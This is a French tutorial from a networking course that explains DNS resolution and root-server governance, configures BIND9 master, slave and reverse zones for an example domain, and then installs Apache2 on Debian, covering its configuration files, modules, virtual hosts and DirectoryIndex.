Imaginez que vous entrez www.siteduzero.com dans votre navigateur. Lorsque vous entrez ce nom, votre machine doit commencer par le résoudre en une adresse IP.
Vous allez donc demander une résolution au serveur DNS que vous avez reçu par le DHCP. Celui-ci a deux moyens pour vous fournir la réponse :
il connaît lui-même la réponse ;
il doit la demander à un autre serveur, car il ne la connaît pas.
La plupart du temps, votre serveur DNS est bien peu savant et demande à un autre serveur de lui donner la réponse. En effet, chaque serveur DNS étant responsable d'un domaine ou d'un petit nombre de domaines, la résolution consiste à aller chercher la bonne information sur le bon serveur.
Nous voulons donc joindre le site www.siteduzero.com et voilà ce que va faire mon serveur DNS.
Tout d'abord, il est évident que cette information ne se trouve pas sur notre serveur, car ce n'est pas lui qui est en charge du Site du Zéro.
Pour obtenir cette résolution, notre serveur va procéder de façon rigoureuse et commencer par là où il a le plus de chance d'obtenir l'information, c'est-à-dire au point de départ de notre arborescence.
Il va demander aux serveurs racine l'adresse IP de www.siteduzero.com. Mais comme les serveurs racine ne sont pas responsables de ce domaine, ils vont le rediriger vers un autre serveur qui peut lui donner une information et qui dépend de la racine, le serveur DNS de com.
Il demande ensuite au serveur DNS de com l'adresse IP de www.siteduzero.com. Mais comme auparavant, le serveur com renvoie l'adresse IP du serveur DNS qui dépend de lui, le serveur DNS de siteduzero.com.
Enfin, il demande au serveur DNS de siteduzero.com l'adresse IP de www.siteduzero.com et là, ça marche : le serveur de siteduzero.com connaît l'adresse IP correspondante et peut la renvoyer.
Existe-t-il aussi un protocole pour convertir une adresse IP en nom de domaine ?
Non, c'est inutile. Le DNS sait faire cela, on parle alors de reverse DNSreverse DNS et de résolution inverse.
La gestion internationale des noms de domaine
Même si le système DNS n'est pas indispensable au fonctionnement d'Internet, il en est un élément incontournable.
Le système de noms de domaine est géré par un organisme américain appelé l'ICANN. Celui-ci dépend directement du Département du Commerce des États-Unis. L'ICANN est responsable de la gestion des 13 serveurs DNS qui gèrent la racine du DNS. Ces 13 serveurs connaissent les adresses IP des serveurs DNS gérant les TLD (les .fr, .com; org, etc.)
Il n'y a vraiment que 13 serveurs racine ?
Oui et non.
En fait, après plusieurs attaques sur les serveurs racine, on s'est rendu compte de la faiblesse de n'avoir que 13 serveurs et de la menace que cela pouvait représenter pour le fonctionnement d'Internet.
On a donc mis en place un système qui duplique les 13 serveurs en différents endroits d'Internet. Il y a donc réellement aujourd'hui plusieurs centaines de serveurs racine qui dupliquent les informations des 13 serveurs d'origine.
C'est l'ICANN qui autorise la création d'une nouvelle extension, comme le .xxx il y a plusieurs mois ou l'utilisation de caractères non-latins (arabes, chinois, japonais, etc.), il y a quelques années.
L'ICANN délègue ensuite les domaines de premier niveau à divers organismes. Pour l'Europe, c'est le RIPE qui délègue lui-même à L'AFNIC qui est responsable du domaine .fr (ainsi que des extensions correspondantes à la France d'outre-mer) ; pour le domaine .com, c'est VeriSign qui s'en occupe. Les labels inférieurs correspondent généralement à des sites ou à des entreprises, et la gestion du nom de domaine leur revient.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Maintenant que nous nous sommes familiarisés avec les noms de domaine et le fonctionnement des DNS, nous allons configurer notre premier nom de domaine. Nous utiliserons le serveur de noms de domaine le plus vieux et le plus utilisé au monde : BIND.
La configuration de notre nom de domaine se fera sous Debian. Vous pouvez donc réutiliser votre Debian préférée.
Préparation
Présentons d'abord ce que nous allons configurer ici.
Première chose, quand vous possédez un domaine, vous devez avoir deux serveurs DNS, un serveur primaire et un serveur secondaire. Ceci est nécessaire pour pouvoir garantir que si l'un tombe en panne, le second permettra toujours d'accéder à vos serveurs.
Le domaine que nous allons configurer sera : reseau.fr.
Ce nom de domaine sera géré par deux serveurs dns :
ns1.reseau.fr - 192.168.0.1 sera notre serveur maître ;
ns2.reseau.fr - 192.168.0.2 sera notre serveur esclave.
Les adresses email de ce nom de domaine seront gérées par deux serveurs de messagerie :
Il existera aussi une autre machine, blog.reseau.fr, qui sera un alias de www.reseau.fr.
Installation de Bind9
# apt-get install bind9
Les fichiers de configuration de Bind se trouvent, comme on peut s'y attendre, dans /etc/bind.
La configuration se fait en deux temps. Nous devons tout d'abord déclarer à notre serveur quels seront les noms de domaine qu'il va devoir gérer, on appelle ça des zones. Ensuite, nous devrons configurer ces zones, grâce à un fichier de configuration par zones.
Configuration du serveur master
Déclaration des zones
Une zone se déclare de cette façon :
zone "reseau.fr" {
type master;
file "/etc/bind/db.reseau.fr";
allow-transfer { 192.168.0.2; };
};
Le type indique si vous êtes master ou slave sur la zone, c'est-à-dire si c'est vous qui effectuez les mises à jour (master) ou si vous les recevez d'un autre serveur (slave). File indique le fichier dans lequel sera configurée votre zone. Allow-transfer indique le serveur qui pourra recevoir vos mises à jour. Bien entendu, cette directive n'existe que dans le cas d'un serveur master.
Passons maintenant à la configuration de notre zone.
Configuration de la zone du serveur master
On édite donc le fichier /etc/bind/db.reseau.fr. Afin d'avoir une configuration "basique", vous pouvez faire une copie de /etc/bind/db.local.
cp /etc/bind/db.local /etc/bind/db.reseau.fr
vim /etc/bind/db.reseau.fr
Dans ce fichier de zone, nous allons indiquer des enregistrements. Il en existe de plusieurs types :
A : c'est le type le plus courant, il fait correspondre un nom d'hôte à une adresse IPv4 ;
AAAA : fait correspondre un nom d'hôte à une adresse IPv6 ;
CNAME : permet de créer un alias pointant sur un autre nom d'hôte ;
NS : définit le ou les serveurs DNS du domaine ;
MX : définit le ou les serveurs de mail du domaine ;
PTR : fait correspond une IP à un nom d'hôte. Il n'est utilisé que dans le cas d'une zone inverse, que nous verrons plus loin ;
SOA : donne les infos de la zone, comme le serveur DNS principal, l'adresse mail de l'administrateur de la zone, le numéro de série de la zone et des durées que nous détaillerons.
Il en existe d'autres mais pas forcément utiles ou intéressants pour ce cours.
Voici ce que donnera notre fichier de zone complet :
$TTL 604800 ; 1 semaine
$ORIGIN reseau.fr.
@ IN SOA ns1.reseau.fr. admin.reseau.fr. (
2013020905 ;serial
3600 ; refresh (1 hour)
3000 ; retry (50 minutes)
4619200 ; expire (7 weeks 4 days 11 hours 6 minutes 40 seconds)
604800 ; minimum (1 week)
)
@ IN NS ns1.reseau.fr.
@ IN NS ns2
@ IN MX 10 mx1
@ IN MX 20 mx2
ns1 IN A 192.168.0.1
ns2 IN A 192.168.0.2
mx1 IN A 192.168.0.3
mx2 IN A 192.168.0.4
tuto IN A 192.168.0.5
www IN A 192.168.0.6
blog IN CNAME www
Examinons chacune de ces informations.
La première info est un TTL (Time to Live). Quand quelqu'un va interroger votre serveur DNS pour obtenir des informations, ces informations vont être stockées en cache chez cette personne (dans la mémoire de son serveur DNS, pour éviter qu'il vienne nous réinterroger de nombreuses fois s'il a de nouveau besoin d'une information). Ce TTL est la durée pendant laquelle les informations sont conservées en cache. Ce délai passé, une nouvelle demande devra être faite au serveur. Le TTL est défini ici sur 1 semaine. En fonction de la fréquence de vos mises à jour, vous pouvez décider de baisser cette valeur pour que vos clients aient leurs informations à jour.
La deuxième info est la variable ORIGIN. Celle-ci est optionnelle. Vous voyez les petits @ plus loin ? Ces @ prennent la valeur de la variable ORIGIN. En l'absence de variable ils prendront la valeur du nom de votre zone défini dans le fichier named.conf (reseau.fr ici).
Vient ensuite notre premier enregistrement, c'est un enregistrement de type SOA (Start Of Authority). Le type SOA est suivi de deux informations. La première est le nom du serveur de domaine principal (master) et la seconde est l'adresse mail de l'administrateur du domaine (en remplaçant l'arrobase par un point). Suivent entre parenthèses différentes valeurs.
Le serial peut être comparé à un numéro de version de votre zone. Il doit être incrémenté à chaque modification. Cela indique à votre serveur que votre zone a été mise à jour et qu'il faut envoyer la notification à vos serveurs esclaves. Les best practices recommandent une syntaxe particulière pour le serial de la forme AAAAMMJJXX (où XX est la version du jour en question). Cela vous permet entre autres de savoir la date de la dernière mise à jour de votre zone.
Refresh est le temps au bout duquel les enregistrements sont stockés sur le serveur slave. Passer ce délai, le serveur slave demandera une nouvelle mise à jour au serveur master.
Retry est le temps qu'attendra le serveur slave dans le cas où le serveur master contacté n'est pas joignable pour faire un nouvel essai.
Expire est le temps pendant lequel le serveur slave continuera à essayer de contacter le serveur master.
Minimum est la durée minimale du cache ; elle est en général égale à Refresh.
Nous trouvons ensuite les enregistrements, du moins ceux qui nous intéressent !
Les enregistrements se découpent en 4 parties sur une ligne (parfois 5 pour des enregistrements spécifiques).
La première information, c'est l'hôte de votre domaine. Nous avons parlé du @ tout à l'heure qui est remplacé par la valeur de $ORIGIN (le cas échéant par le nom de votre zone). Notez qu'on peut ne rien mettre du tout si on veut parler du domaine entier. Rien, @, ou un nom de machine ou de sous-domaine au choix.
Le second, représente la classe. Ici, elle spécifie qu'il s'agit d'un enregistrement concernant Internet. Il existe d'autres valeurs mais elles ne sont pas utilisées, donc on met toujours IN.
Le troisième spécifie le type d'enregistrement dont on a détaillé les différents types précédemment.
Enfin, le dernier spécifie la valeur de l'enregistrement dépendant du type. Un type A attendra une adresse IP, un type PTR attendra un nom d'hôte, etc.
On trouve parfois, juste avant cette dernière valeur, un nombre qui indique le "poids" d'un enregistrement. On verra plus loin dans quel cas c'est utile.
On commence généralement par les enregistrements des serveurs gérant notre domaine et les services associés (le mail en l'occurrence). Dans notre cas il s'agit des types NS et MX. On utilise l'@ parce que ces enregistrements ne déterminent pas un hôte en particulier, mais bien le domaine entier.
@ IN NS ns1.reseau.fr.
Cette ligne se traduit donc par : "ns1.reseau.fr est un serveur de nom de domaine de reseau.fr"
Ceci étant, réécrire à chaque fois le FQDN c'est un peu contraignant. Et comme on sait que, ne pas finir sa ligne par un "." rajoute au FQDN de votre zone, on peut se permettre de n'écrire que "ns1". Ainsi, votre serveur rajoutera "reseau.fr." et on aura le FQDN que l'on cherchait à obtenir.
Voyez la deuxième ligne qui utilise cette syntaxe raccourcie.
Les enregistrements MX utilisent la même syntaxe que pour les NS et indiquent l'adresse IP d'un serveur de messagerie, à cela près que nous avons rajouté un chiffre devant "mx1". Nous avons dit tout à l'heure que ce chiffre déterminait le "poids" d'un enregistrement, on parle aussi de priorité. Nous avons deux serveurs MX : mx1 et mx2 ; cette valeur va permettre de déterminer lequel des deux doit être utilisé en priorité. Plus elle est basse, plus le serveur est prioritaire.
Mais nous avons aussi deux serveurs NS ! Comment se passe cette priorité, étant donné qu'il n'y a pas de valeur pour les départager ?
Dans ce cas, c'est chacun son tour. Sur une machine Linux, essayez plusieurs fois de suite cette commande :
host -t NS google.fr
Vous verrez que les réponses que vous recevez ne sont jamais dans le même ordre. Cela s'appelle du Round-Robin, c'est une méthode qui permet d'équilibrer la charge entre les deux serveurs pour ne pas les surcharger, car un serveur sera autant consulté que les autres serveurs du même type.
Très bien, maintenant on sait que les serveurs mail de notre domaine sont mx1.reseau.fr et mx2.reseau.fr. Cependant, on ne sait toujours pas leurs adresses IP alors que c'est quand même le but d'un serveur DNS, non ?
D'ailleurs, vous voyez qu'ensuite nous définissons l'adresse IP de mx1 (sans . à la fin, donc mx1.reseau.fr ! ) avec un enregistrement de type A.
C'est ce qu'on appelle un Glue Record. On définit une première fois le nom d'hôte du serveur NS, puis on définit l'adresse IP de cet hôte. On doit faire cela, car un enregistrement NS associe un nom de serveur au nom du domaine. Il faut donc ajouter un enregistrement A pour le nom de ce serveur.
On retrouve ensuite les enregistrements les plus courants, ceux de type A (et AAAA quand on a de l'IPv6). En effet, le rôle principal du DNS est de faire correspondre un nom d'hôte avec son adresse IP, et c'est ce que fait le type A.
La syntaxe est relativement simple comme vous pouvez le voir :
tuto IN A 192.168.0.5
Comme pour les autres enregistrements, "tuto" ou "tuto.reseau.fr." revient au même. N'oubliez pas le point si vous optez pour le FQDN.
Le type CNAME est aussi simple à comprendre. On fait correspondre un nom d'hôte à un autre nom d'hôte. Bien sûr, si "blog" pointe sur "www", l'enregistrement www doit exister.
Je le répète encore une fois : si vous choisissez le FQDN, n'oubliez pas le point, c'est une des premières causes d'erreurs dans les configurations DNS.
Voilà, notre zone est maintenant configurée sur notre serveur master. Vous devez redémarrer BIND pour que les changements soient pris en compte :
# /etc/init.d/bind9 restart
Configuration du serveur slave
Nous avons prévu deux serveurs dans notre architecture . Celui que nous venons de configurer est le master ; celui que nous allons faire sera le slave. Les modifications se font sur le master, et celui-ci enverra des notifications aux slaves (il peut y en avoir plusieurs) pour que leurs zones soient mises à jour.
La configuration du serveur slave est donc relativement simple, tout se passe dans le named.conf. Il n'y a pas de fichier de zone à configurer étant donné que celui-ci sera reçu du master.
On commence par installer Bind comme pour le master et on édite /etc/bind/named.conf.
zone "reseau.fr" {
type slave;
file "/var/cache/bind/db.reseau.fr";
masters { 192.168.0.1;};
};
Et c'est tout ! :D
La directive masters indique l'adresse IP du serveur master duquel nous allons recevoir les mises à jour de notre zone.
Résolution inverse
Pour l'instant, nous avons vu le protocole DNS comme un moyen de résoudre un nom d'hôte en une adresse IP. Nous avons parlé des enregistrements de type PTR et vous savez donc que DNS permet aussi de faire le travail inverse. C'est une résolution inverse.
Votre serveur DNS se doit de pouvoir résoudre une adresse IP en un nom d'hôte. C'est ce que nous allons faire ici.
Retournons dans notre fichier named.conf afin d'ajouter cette zone inverse. Nous allons déclarer la zone inverse de notre adressage IP, ici c'est 192.168.0.0/24.
Alors qu'une zone "normale" se déclare de façon plutôt logique, une zone inverse doit respecter une certaine forme concernant le nom de la zone :
zone "0.168.192.in-addr.arpa." {
type master;
file "/etc/bind/db.192.168.0";
};
Voilà pour la déclaration. Il faut juste faire attention au nommage de la zone, la partie réseau de l'adresse IP à l'envers, puis ".in-addr.arpa".
On crée ensuite le fichier de zone.
$TTL 604800 ; 1 semaine
$ORIGIN 0.168.192.in-addr.arpa.
@ IN SOA ns1.reseau.fr. admin.reseau.fr. (
2013020905 ;serial
3600 ; refresh (1 hour)
3000 ; retry (50 minutes)
4619200 ; expire (7 weeks 4 days 11 hours 6 minutes 40 seconds)
604800 ; minimum (1 week)
)
@ IN NS ns1.reseau.fr.
@ IN NS ns2.reseau.fr.
1 IN PTR ns1.reseau.fr.
2 IN PTR ns2.reseau.fr.
3 IN PTR mx1.reseau.fr.
4 IN PTR mx1.reseau.fr.
5 IN PTR tuto.reseau.fr.
6 IN PTR www.reseau.fr.
Ce n'est pas très compliqué. C'est l'inverse d'une zone "normale". Ça, je pense que vous l'avez compris maintenant. ^^
Les points auxquels il faut faire attention :
une zone inverse ne contient que des enregistrements de type NS ou PTR ;
dans notre zone "normale", blog redirigeait vers www, mais là une adresse IP ne peut pointer que vers un seul hôte ;
la variable ORIGIN a changé ! Il faut donc penser à utiliser le FQDN de nos hôtes à chaque fois.
Vérification
On va quand même vérifier le fonctionnement de notre zone maintenant.
Commencez déjà par redémarrer votre serveur de nom pour prendre en compte les changements de configuration : # /etc/init.d/bind9 restart
Il existe plusieurs commandes pour faire des interrogations DNS. La commande la plus utilisée est host mais dig fournit plus d'informations et permet un diagnostic plus précis en cas de problème. Vérifiez d'abord le serveur DNS utilisé par votre machine. Comme cette machine est elle-même un serveur DNS, elle va devoir s'interroger elle-même.
Le programme qui fait toutes les résolutions DNS pour votre machine s'appelle le resolver. Ainsi, chaque programme qui a besoin de faire une résolution DNS s'adresse au resolver.
Son fichier de configuration se trouve dans /etc/resolv.conf qui doit au moins contenir l'adresse d'un serveur DNS à interroger :
nameserver 127.0.0.1
Oui, votre serveur va s'interroger lui-même. Vous pouvez spécifier d'autres serveurs, un par nameserver. Ce fichier peut aussi contenir des informations sur votre domaine ou le domaine de recherche.
On peut maintenant commencer nos tests :
Nous allons donc utiliser la commande host qui permet de faire une interrogation DNS.
Sa syntaxe est la suivante: # host -t type nom_a_chercher IPserveur
On peut ainsi indiquer le type de la requête (NS, A, MX, CNAME, etc.), le nom à interroger, ainsi que l'adresse IP du serveur que l'on peut préciser.
Par exemple, si l'on cherche l'adresse des serveurs DNS du domaine reseau.fr :
# host -t ns reseau.fr
reseau.fr name server ns1.reseau.fr.
reseau.fr name server ns2.reseau.fr.
Et pour avoir leurs adresses IP:
# host -t a ns1.reseau.fr
ns1.reseau.fr has address 192.168.0.1
# host -t a ns2.reseau.fr
ns2.reseau.fr has address 192.168.0.2
Si tout se passe bien, c'est parfait. Dans le cas contraire, penser à vérifier que les syntaxes de vos fichiers de zones sont bonnes, avec "named-checkzone", et que vous avez bien pensé à relancer votre serveur Bind, etc.
Nous venons de voir que grâce à la commande host (ou dig), il est possible de demander toute information contenue dans vos zones DNS, ou même sur des serveurs situés sur Internet !
Exercice
Sachant que 8.8.8.8 est un serveur DNS public proposé par Google,
Trouvez les noms et adresses IP des 13 serveurs racine ;
Vous commencez à connaître quelques services indispensables avec le DHCP et le DNS.
Le service que nous allons voir maintenant n'est pas indispensable au fonctionnement des réseaux, mais il est aujourd'hui le fondement même d'Internet, j'ai nommé : le web.
Nous allons voir dans ce chapitre comment mettre en place un serveur web et le configurer.
Le service web est LE service d'Internet. C'est celui qui permet d'héberger des serveurs web, et donc de vous proposer des pages à lire comme le Site du Zéro ou Facebook.
Nous allons voir comment mettre en place un serveur web et le configurer pour qu'il puisse proposer des pages aux internautes.
Principe du web
Le fonctionnement du web s'appuie sur le protocole applicatif HTTP.
Comme les autres protocoles que nous avons étudiés, HTTP a un mode de fonctionnement bien spécifique... que nous n'étudierons pas ici. :o
En effet, ce qui nous intéresse, c'est surtout de savoir utiliser la navigation, mais pas de la comprendre en détail, du moins pas pour l'instant.
Le protocole HTTP
Plutôt que d'essayer de comprendre en détail le protocole HTTP, nous allons voir ce qu'il permet de faire.
Si vous avez bien suivi le tuto de M@teo21 sur HTML/CSS vous savez qu'une page web est composée de balises HTML.
Le principe du protocole HTTP est de transporter ces pages HTML, et potentiellement quelques informations supplémentaires.
Le serveur web met donc à disposition les pages web qu'il héberge, et le protocole HTTP les transporte sur le réseau pour les amener au client.
Nous allons donc mettre en œuvre un serveur web qui permettra de mettre à disposition des internautes nos pages web !
Les différents serveurs web
Il existe de nombreux serveurs web sur le marché.
Le plus connu est Apache et il est utilisé par une majorité de sites sur Internet.
Les chiffres parlent d'eux-mêmes, voici l'utilisation des différents serveurs à travers le monde :
Serveurs web les plus utilisés (source: W3techs.com)
Toutefois, si l'on regarde plus précisément les évolutions des serveurs, on se rend compte que la tendance n'est pas à la progression pour Apache :
Graph représentant l'utilisation des serveurs web (source: netcraft)
Le serveur nginx a notamment vécu une très belle progression depuis 2007, car il offre des performances souvent meilleures qu'Apache.
Cependant, pour notre mise en place, nous allons opter pour Apache qui reste le serveur numéro un. Vous pourrez si vous le souhaitez essayer un autre serveur, comme nginx, mais la configuration est souvent très différente d'un serveur à l'autre.
C'est parti pour l'installation !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Sous Debian, l'installation d'une application est extrêmement simplifiée avec l'utilisation de apt.
Vous pouvez donc vous mettre sur votre machine virtuelle sous Linux et entrer les commandes suivantes :
On met d'abord à jour notre liste de packages. # apt-get update
Ensuite, on installe apache2 qui est la dernière version d'Apache. # apt-get install apache2
À cet instant, vous avez un serveur Apache en état de fonctionnement. Cependant, nous allons aller plus loin pour permettre à ce serveur d’interpréter du langage PHP et nous allons installer aussi ce qu'il faut pour pouvoir parler avec une base de données : # apt-get install libapache2-mod-php5 php5-mysql
Notre serveur étant installé, nous allons vérifier qu'il est bien en écoute :
Le service est bien en écoute, nous pouvons tester pour voir ce qui est présenté.
Pour cela, nous allons simplement faire pointer notre navigateur sur l'adresse IP de notre machine virtuelle :
Page d'Apache par défaut
Nous voyons bien la page par défaut du serveur Apache, ça marche !
Nous allons maintenant regarder comment configurer notre serveur pour pouvoir afficher nos propres sites web.
Configuration d'Apache2
Comme habituellement sous Unix, les fichiers de configuration se trouvent dans le répertoire /etc.
Pour Apache2, ils sont dans le répertoire... apache2. Rien de bien original. :p
Regardons le contenu de ce répertoire :
# cd /etc/apache2
# ls -la
total 76
drwxr-xr-x 7 root root 4096 Aug 30 2012 .
drwxr-xr-x 88 root root 4096 Mar 19 23:19 ..
-rw-r--r-- 1 root root 7994 Jan 1 2011 apache2.conf
drwxr-xr-x 2 root root 4096 Mar 16 2011 conf.d
-rw-r--r-- 1 root root 1169 Jan 1 2011 envvars
-rw-r--r-- 1 root root 0 Mar 16 2011 httpd.conf
-rw-r--r-- 1 root root 31063 Jan 1 2011 magic
drwxr-xr-x 2 root root 4096 Mar 16 2011 mods-available
drwxr-xr-x 2 root root 4096 Mar 16 2011 mods-enabled
-rw-r--r-- 1 root root 750 Jan 1 2011 ports.conf
drwxr-xr-x 2 root root 4096 Sep 26 15:09 sites-available
drwxr-xr-x 2 root root 4096 Sep 4 2012 sites-enabled
Nous voyons ici différents fichiers et répertoires plus ou moins importants.
Nous allons les parcourir.
Tout d'abord, il faut savoir qu'avant Apache2 il y avait Apache et qu'à peu près toutes les informations de configuration étaient dans un seul et unique fichier, httpd.conf.
Cela posait quelques problèmes, car ce fichier devenait un peu un fourre-tout dans lequel il était difficile de savoir où certaines informations étaient situées et s'il n'y avait pas des informations redondantes.
Pour Apache2, ce fichier de configuration a été séparé en plusieurs parties.
Le point de départ est le fichier apache2.conf.
Ce fichier contient un certain nombre de directives importantes, ainsi que les inclusions (Includes) des autres fichiers de configuration.
Cependant, il n'y a pas de directives qui nous intéressent dans ce fichier. Si vous souhaitez vous spécialiser dans l'utilisation d'Apache et comprendre chacun des directives, la documentation officielle vous tend les bras.
Par contre, les includes en fin de fichier nous donnent une idée des parties de la configuration qui sont en dehors de apache2.conf, et qui vont pouvoir nous intéresser :
# Include module configuration:
Include mods-enabled/*.load
Include mods-enabled/*.conf
# Include all the user configurations:
Include httpd.conf
# Include ports listing
Include ports.conf
#
# The following directives define some format nicknames for use with
# a CustomLog directive (see below).
# If you are behind a reverse proxy, you might want to change %h into %{X-Forwarded-For}i
#
LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %O" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-agent}i" agent
# Include of directories ignores editors' and dpkg's backup files,
# see README.Debian for details.
# Include generic snippets of statements
Include conf.d/
# Include the virtual host configurations:
Include sites-enabled/
Nous voyons d'abord l'inclusion de modules.
En effet, Apache est un service modulaire. Cela veut dire que l'on peut lui ajouter des modules qui viennent lui ajouter des fonctionnalités particulières.
Par exemple, Apache peut jouer le rôle de proxy. Pour cela, il faut lui ajouter le module mod_proxy.
On peut ainsi ajouter toutes sortes de fonctionnalités à Apache.
Sans le savoir, nous avons déjà ajouté un module à Apache en installant libapache2-mod-php5 qui est le module de prise en compte du langage PHP par notre serveur Apache2.
Nous avons deux lignes includes pour les modules :
# Include module configuration:
Include mods-enabled/*.load
Include mods-enabled/*.conf
Ceci nous indique qu'Apache va prendre en compte les fichiers .load et .conf situés dans le répertoire mods-enabled (qui est lui-même dans /etc/apache2, puisque c'est notre répertoire de travail).
Allons donc voir ce qui est contenu dans le répertoire mods-enabled :
Les plus avertis d'entre vous auront remarqué que tous ces fichiers ne sont que des liens vers d'autres fichiers qui sont situés dans ../mods-available/.
En fait, le répertoire mods-enabled ne contient que des liens. Ces liens pointent vers les vrais fichiers qui sont contenus dans mods-available.
Nous venons de découvrir le fonctionnement modulaire d'Apache2.
Tous les modules sont installés dans mods-available.
On crée des liens vers ces fichiers dans mods-enabled.
Seul le répertoire mods-enabled est lu par la configuration d'Apache.
Ce mode de fonctionnement nous permettra très facilement de désactiver ou d'activer un module pour Apache2. Il suffira de créer un lien vers le module ou au contraire de l'effacer.
Donc, pour installer un module, vous avez deux choix :
l'installer avec la commande apt-get install nom_module ;
récupérer les fichiers .conf et .load et les mettre dans le répertoire mods-available, puis créer des liens vers ces fichiers dans mods-enabled.
Vous savez donc maintenant installer, désactiver ou activer un module.
Nous allons passer à la suite des includes de notre fichier apache2.conf. Include httpd.conf
Là, il s'agit simplement de conserver ce qui pouvait exister historiquement, mais ce fichier est vide par défaut.
Include ports.conf
Ce fichier va indiquer sur quel port notre serveur doit écouter. Par défaut, il s'agit du port 80, mais cela peut être modifié si vous le souhaitez (mais vous ne voudriez pas outrepasser une norme, n'est-ce pas ?)
Il y a ensuite quelques informations sur le format des logs du service et le répertoire conf.d qui peut comprendre des attributs de configuration particuliers, mais cela ne nous intéresse pas ici.
Et enfin une dernière partie très importante qui concerne les virtualhosts :
# Include the virtual host configurations:
Include sites-enabled/
Le virtualhost est une notion très importante dans Apache2. C'est ce qui nous permet de faire tourner plusieurs sites sur le même serveur Apache2.
Vous pouvez avoir un serveur web qui présente plusieurs sites web, comme www.lalitte.com et www.mailforkids.net qui sont deux sites différents, mais hébergés sur le même serveur Apache2.
Nous allons donc regarder ce qui est contenu dans le répertoire sites-enabled.
# ls -la sites-enabled/
total 2
drwxr-xr-x 2 root root 4096 4 sept. 2012 .
drwxr-xr-x 7 root root 4096 22 mars 15:50 ..
lrwxrwxrwx 1 root root 26 16 mars 2011 000-default -> ../sites-available/default
Un seul fichier ici ! Enfin, un lien plus exactement, mais nous connaissons le principe maintenant, qui est le même que pour les modules avec un répertoire sites-avalable qui contient les fichiers et le répertoire sites-enabled qui contient les liens vers les fichiers dans sites-available.
Ce fichier est le fichier de configuration par défaut de nos virtualhosts. C'est lui qui sera utilisé par défaut pour toute requête web arrivant à notre serveur.
Regardons son contenu :
<VirtualHost *:80>
ServerAdmin webmaster@localhost
DocumentRoot /var/www/
<Directory />
Options FollowSymLinks
AllowOverride all
</Directory>
<Directory /var/www/>
Options Indexes FollowSymLinks MultiViews
AllowOverride all
Order allow,deny
allow from all
</Directory>
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
AllowOverride None
Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
Order allow,deny
Allow from all
</Directory>
ErrorLog /var/log/apache2/error.log
# Possible values include: debug, info, notice, warn, error, crit,
# alert, emerg.
LogLevel warn
CustomLog /var/log/apache2/access.log combined
Alias /doc/ "/usr/share/doc/"
<Directory "/usr/share/doc/">
Options Indexes MultiViews FollowSymLinks
AllowOverride None
Order deny,allow
Deny from all
Allow from 127.0.0.0/255.0.0.0 ::1/128
</Directory>
</VirtualHost>
Nous n'avons besoin de comprendre que quelques éléments pour l'instant. <VirtualHost *:80>
Ceci indique le début d'une directive de configuration Apache et notamment le début d'un virtualhost qui sera en écoute sur le port 80.
DocumentRoot /var/www/
Le DocumentRoot est très important. C'est ce qui va indiquer au serveur Apache2 où vont se situer les pages de notre site web. Dans notre cas, comme dans la majorité des cas, la racine de notre site web se situera dans /var/www/.
D'ailleurs, nous pouvons aller voir le contenu de ce répertoire :
# ls -la /var/www/
total 2
drwxr-xr-x 6 root root 4096 15 oct. 18:47 .
drwxr-xr-x 14 root root 4096 16 mars 2011 ..
-rw-r--r-- 1 root root 517 16 mars 2011 index.html
Il ne contient qu'un fichier index.html. Allons voir son contenu :
# cat /var/www/index.html
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
</body>
</html>
Cela correspond bien à ce que nous avons vu tout à l'heure sur la page web !
Nous pouvons essayer de faire une modification et de voir le résultat.
Éditez le fichier index.html et mettez-y... ce que vous voulez !
Moi j'ai opté pour la page suivante:
<html><body><h1>Ma belle page de la mort qui tue !</h1>
<p>Bienvenue sur mon serveur apache2 qu'il est bien.</p>
<p>Le réseau c'est génial !</p>
</body>
</html>
Ceci me donne :
Ma nouvelle page web
Bon OK, ce n'est pas encore génial, et il y a apparemment de gros problèmes d'encodage des accents.
Mais, au moins, notre page s'affiche. :)
Nous allons maintenant pouvoir passer à quelques éléments de configuration avancée.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons voir ici quelques éléments de configuration du serveur Apache2 qui pourraient vous intéresser.
Dans un premier temps, nous allons bidouiller un peu, et voir les conséquences de nos bidouilles.
Bidouillons gaiement !
Comme premier test, nous avons modifié le contenu de notre fichier index.html.
Nous allons maintenant essayer de changer son nom pour voir les conséquences.
index.tutu
Nous allons l'appeler index.tutu :
# cd /var/www
# mv index.html index.tutu
Observons le résultat quand on se connecte simplement sur le site :
Page par défaut avec index.tutu
Nous voyons que ce n'est plus notre page web qui nous est présentée, mais le contenu du répertoire /var/www/.
Si nous cliquons maintenant sur index.tutu, que se passe-t-il ?
Affichage d'index.tutu
Ce n'est plus notre belle page web, mais simplement son contenu avec les balises...
Mais que se passe-t-il ? Notre serveur ne fonctionne plus ? :o
Ajouter des fichiers d'index à Apache2
Si, il continue de très bien fonctionner, mais il fait ce qu'on lui dit de faire.
Dans un premier temps, nous sommes allés vers la page principale du site sans préciser de nom de page spécifique. Dans ce cas, Apache regarde s'il y a un fichier par défaut qui doit s'appeler index et une extension d'un langage web.
Cette directive, très importante, se trouve dans le module dir.
La directive DirectoryIndex indique à Apache quel peut être le nom du fichier qui sera automatiquement lu par le serveur si aucun fichier n'est indiqué.
Nous pouvons essayer d'ajouter notre fichier index.tutu au DirectoryIndex.
Regardons le résultat, en ne rentrant dans l'URL QUE l'adresse IP du site 192.168.0.1 :
Avec DirectoryIndex index.tutu
Eh bien ? Ça n'a rien changé… :waw:
Oui, car nous avons changé la configuration d'Apache2, mais nous ne lui avons pas dit. En fait, il faut relancer le service apache2 pour que les nouveautés de configuration soient prises en compte :
# /etc/init.d/apache2 restart
Restarting web server: apache2 ... waiting .
Et nous pouvons maintenant rafraîchir la page :
Affichage d'index.tutu sans l'avoir précisé
On voit effectivement qu'Apache2 ne nous affiche plus le contenu du répertoire /var/www/, mais directement le fichier index.tutu qui est bien spécifié dans le DirectoryIndex.
Cependant, c'est toujours le texte avec les balises qui est affiché, et non la page web interprétée. :(
